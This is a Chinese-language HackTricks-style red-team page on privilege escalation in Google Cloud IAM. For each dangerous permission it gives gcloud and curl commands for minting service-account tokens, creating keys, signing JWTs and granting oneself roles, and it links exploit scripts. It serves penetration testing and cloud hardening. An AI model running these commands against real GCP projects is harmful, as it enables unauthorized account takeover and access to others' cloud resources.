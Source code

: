 # GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

有关 IAM 的更多信息，请参见：

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

具有上述权限的攻击者将能够更新分配给您的角色，并为您提供对其他资源的额外权限，例如：
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
您可以在此处找到一个脚本，用于自动化**创建、利用和清理漏洞环境**，以及一个用于滥用此权限的python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

具有上述权限的攻击者将能够**请求属于服务帐户的访问令牌**，因此可以请求具有比我们更多权限的服务帐户的访问令牌。
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
您可以在这里找到一个脚本，用于自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh)，以及一个用于滥用此权限的python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccountKeys.create`

具有上述权限的攻击者将能够**为服务账户创建用户管理的密钥**，这将允许我们以该服务账户的身份访问GCP。
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
您可以在这里找到一个脚本，用于自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh)，以及一个用于滥用此权限的Python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

请注意，**`iam.serviceAccountKeys.update`无法修改SA的密钥**，因为要做到这一点，还需要权限`iam.serviceAccountKeys.create`。

### `iam.serviceAccounts.implicitDelegation`

如果您在具有**`iam.serviceAccounts.getAccessToken`**权限的第三个服务帐户上拥有**`iam.serviceAccounts.implicitDelegation`**权限，则可以使用implicitDelegation为该第三个服务帐户**创建一个令牌**。以下是一个帮助解释的图表。

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

请注意，根据[**文档**](https://cloud.google.com/iam/docs/understanding-service-accounts)，`gcloud`的委托仅适用于使用[**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken)方法生成令牌。因此，您可以直接使用API获取令牌：
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
您可以在这里找到一个脚本来自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh)，以及一个用于滥用此权限的python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.signBlob`

具有上述权限的攻击者将能够**在GCP中签署任意有效负载**。因此，可以**创建SA的未签名JWT，然后将其作为blob发送以获取我们目标SA签署的JWT**。有关更多信息[**请阅读此文**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed)。

您可以在这里找到一个脚本来自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh)，以及一个用于滥用此权限的python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py)和[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.signJwt`

具有上述权限的攻击者将能够**签署格式良好的JSON Web令牌（JWT）**。与前一种方法的区别在于**我们使用signJWT方法，该方法已经期望一个JWT，而不是让google签署一个包含JWT的blob**。这使得使用更容易，但您只能签署JWT，而不是任何字节。

您可以在这里找到一个脚本来自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh)，以及一个用于滥用此权限的python脚本[**在这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py)。有关更多信息，请查看[**原始研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

具有上述权限的攻击者将能够**向服务账户添加IAM策略**。您可以利用它来**授予自己**您需要的权限以冒充服务账户。在以下示例中，我们将`roles/iam.serviceAccountTokenCreator`角色授予自己，针对有趣的SA：
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
您可以在这里找到一个脚本，用于自动化[**创建、利用和清理漏洞环境**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**。**

### `iam.serviceAccounts.actAs`

**iam.serviceAccounts.actAs 权限** 类似于 **AWS 的 iam:PassRole 权限**。它对于执行任务至关重要，例如启动 Compute Engine 实例，因为它授予“作为”服务帐户的能力，确保安全的权限管理。如果没有这个，用户可能会获得不当访问。此外，利用 **iam.serviceAccounts.actAs** 涉及多种方法，每种方法都需要一组权限，这与其他只需要一个权限的方法形成对比。

#### 服务帐户 impersonation <a href="#service-account-impersonation" id="service-account-impersonation"></a>

模拟服务帐户对于**获取新的和更好的权限**非常有用。您可以通过三种方式[模拟另一个服务帐户](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account)：

* 使用 RSA 私钥进行身份验证（如上所述）
* 使用 Cloud IAM 策略进行授权（在此处介绍）
* **在 GCP 服务上部署作业**（更适用于用户帐户的妥协）

### `iam.serviceAccounts.getOpenIdToken`

具有上述权限的攻击者将能够生成 OpenID JWT。这些用于声明身份，并不一定对资源具有隐含的授权。

根据这篇[**有趣的文章**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b)，需要指明受众（您希望使用令牌进行身份验证的服务），您将收到一个由 Google 签名的 JWT，指示服务帐户和 JWT 的受众。

您可以使用以下命令生成 OpenIDToken（如果您有访问权限）：
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
然后你可以直接使用它来访问服务：
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
一些支持通过这种令牌进行身份验证的服务包括：

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id)（如果使用 Google OIDC）

您可以在[**这里**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py)找到如何代表服务帐户创建 OpenID 令牌的示例。

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
